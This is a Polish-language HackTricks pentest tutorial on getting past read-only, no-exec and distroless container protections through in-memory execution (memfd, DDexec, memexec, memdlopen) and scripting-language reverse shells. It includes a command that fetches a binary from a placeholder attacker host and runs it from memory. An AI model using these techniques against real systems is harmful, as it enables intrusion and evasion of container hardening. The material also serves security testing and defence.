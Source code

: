 # Obejście ochrony FS: tylko do odczytu / brak wykonania / Distroless

{{#include ../../../banners/hacktricks-training.md}}

## Filmy

W poniższych filmach znajdziesz techniki wspomniane na tej stronie wyjaśnione bardziej szczegółowo:

- [**DEF CON 31 - Eksploracja manipulacji pamięcią Linuxa w celu ukrycia i unikania**](https://www.youtube.com/watch?v=poHirez8jk4)
- [**Ukryte intruzje z DDexec-ng i in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM_gjjiARaU)

## scenariusz tylko do odczytu / brak wykonania

Coraz częściej spotyka się maszyny linuxowe zamontowane z **ochroną systemu plików tylko do odczytu (ro)**, szczególnie w kontenerach. Dzieje się tak, ponieważ uruchomienie kontenera z systemem plików ro jest tak proste, jak ustawienie **`readOnlyRootFilesystem: true`** w `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Jednak nawet jeśli system plików jest zamontowany jako ro, **`/dev/shm`** nadal będzie zapisywalny, więc to fałsz, że nie możemy nic zapisać na dysku. Jednak ten folder będzie **zamontowany z ochroną brak wykonania**, więc jeśli pobierzesz tutaj binarny plik, **nie będziesz mógł go wykonać**.

> [!WARNING]
> Z perspektywy red teamu, to **utrudnia pobieranie i wykonywanie** binarnych plików, które nie są już w systemie (jak backdoory czy enumeratory takie jak `kubectl`).

## Najłatwiejsze obejście: Skrypty

Zauważ, że wspomniałem o binarnych plikach, możesz **wykonywać dowolny skrypt**, o ile interpreter jest w maszynie, jak **skrypt powłoki**, jeśli `sh` jest obecny, lub **skrypt Pythona**, jeśli `python` jest zainstalowany.

Jednak to nie wystarczy, aby wykonać swój binarny backdoor lub inne narzędzia binarne, które możesz potrzebować uruchomić.

## Obejścia pamięci

Jeśli chcesz wykonać binarny plik, ale system plików na to nie pozwala, najlepszym sposobem jest **wykonanie go z pamięci**, ponieważ **ochrony nie mają tam zastosowania**.

### Obejście FD + syscall exec

Jeśli masz w maszynie potężne silniki skryptowe, takie jak **Python**, **Perl** lub **Ruby**, możesz pobrać binarny plik do wykonania z pamięci, przechować go w deskryptorze pliku pamięci (`create_memfd` syscall), który nie będzie chroniony przez te zabezpieczenia, a następnie wywołać **`exec` syscall**, wskazując **fd jako plik do wykonania**.

W tym celu możesz łatwo użyć projektu [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec). Możesz przekazać mu binarny plik, a on wygeneruje skrypt w wskazanym języku z **binarnym plikiem skompresowanym i zakodowanym w b64** z instrukcjami do **dekodowania i dekompresji** w **fd** utworzonym przez wywołanie syscall `create_memfd` oraz wywołanie **syscall exec**, aby go uruchomić.

> [!WARNING]
> To nie działa w innych językach skryptowych, takich jak PHP czy Node, ponieważ nie mają one żadnego **domyślnego sposobu wywoływania surowych syscalli** z poziomu skryptu, więc nie można wywołać `create_memfd`, aby utworzyć **fd pamięci** do przechowywania binarnego pliku.
>
> Ponadto, utworzenie **zwykłego fd** z plikiem w `/dev/shm` nie zadziała, ponieważ nie będziesz mógł go uruchomić, ponieważ **ochrona brak wykonania** będzie miała zastosowanie.

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) to technika, która pozwala na **modyfikację pamięci własnego procesu** poprzez nadpisanie jego **`/proc/self/mem`**.

Dlatego, **kontrolując kod assemblera**, który jest wykonywany przez proces, możesz napisać **shellcode** i "mutować" proces, aby **wykonać dowolny arbitralny kod**.

> [!TIP]
> **DDexec / EverythingExec** pozwoli ci załadować i **wykonać** własny **shellcode** lub **dowolny binarny plik** z **pamięci**.
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
Aby uzyskać więcej informacji na temat tej techniki, sprawdź Github lub:

{{#ref}}
ddexec.md
{{#endref}}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) jest naturalnym krokiem naprzód od DDexec. To **demonizowany shellcode DDexec**, więc za każdym razem, gdy chcesz **uruchomić inny plik binarny**, nie musisz ponownie uruchamiać DDexec, możesz po prostu uruchomić shellcode memexec za pomocą techniki DDexec, a następnie **komunikować się z tym demonem, aby przekazać nowe pliki binarne do załadowania i uruchomienia**.

Możesz znaleźć przykład, jak użyć **memexec do wykonywania plików binarnych z odwrotnego powłoki PHP** w [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Z podobnym celem do DDexec, technika [**memdlopen**](https://github.com/arget13/memdlopen) umożliwia **łatwiejszy sposób ładowania plików binarnych** w pamięci, aby później je wykonać. Może nawet pozwolić na ładowanie plików binarnych z zależnościami.

## Distroless Bypass

### Czym jest distroless

Kontenery distroless zawierają tylko **najmniejsze niezbędne komponenty do uruchomienia konkretnej aplikacji lub usługi**, takie jak biblioteki i zależności uruchomieniowe, ale wykluczają większe komponenty, takie jak menedżer pakietów, powłoka czy narzędzia systemowe.

Celem kontenerów distroless jest **zmniejszenie powierzchni ataku kontenerów poprzez eliminację niepotrzebnych komponentów** i minimalizację liczby podatności, które mogą być wykorzystane.

### Odwrotna powłoka

W kontenerze distroless możesz **nawet nie znaleźć `sh` ani `bash`**, aby uzyskać zwykłą powłokę. Nie znajdziesz również plików binarnych takich jak `ls`, `whoami`, `id`... wszystko, co zwykle uruchamiasz w systemie.

> [!WARNING]
> Dlatego **nie** będziesz w stanie uzyskać **odwrotnej powłoki** ani **enumerować** systemu tak, jak zwykle.

Jednak jeśli skompromitowany kontener uruchamia na przykład aplikację flask, to python jest zainstalowany, a zatem możesz uzyskać **odwrotną powłokę Pythona**. Jeśli działa node, możesz uzyskać odwrotną powłokę Node, i to samo z większością **języków skryptowych**.

> [!TIP]
> Używając języka skryptowego, możesz **enumerować system** korzystając z możliwości języka.

Jeśli nie ma **ochron `read-only/no-exec`**, możesz wykorzystać swoją odwrotną powłokę do **zapisywania w systemie plików swoich plików binarnych** i **ich wykonywania**.

> [!TIP]
> Jednak w tego rodzaju kontenerach te zabezpieczenia zazwyczaj będą istnieć, ale możesz użyć **wcześniejszych technik wykonania w pamięci, aby je obejść**.

Możesz znaleźć **przykłady** na to, jak **wykorzystać niektóre podatności RCE**, aby uzyskać odwrotne powłoki języków skryptowych i wykonywać pliki binarne z pamięci w [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).


{{#include ../../../banners/hacktricks-training.md}}
